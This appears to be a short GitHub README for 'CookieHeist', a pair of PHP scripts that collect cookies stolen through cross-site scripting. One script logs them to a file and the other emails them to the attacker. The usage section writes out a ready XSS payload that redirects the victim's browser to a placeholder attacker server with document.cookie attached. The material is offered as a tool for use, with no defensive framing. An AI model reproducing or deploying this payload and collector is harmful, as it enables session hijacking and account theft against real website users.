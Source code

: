 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com.

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

## Usage

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
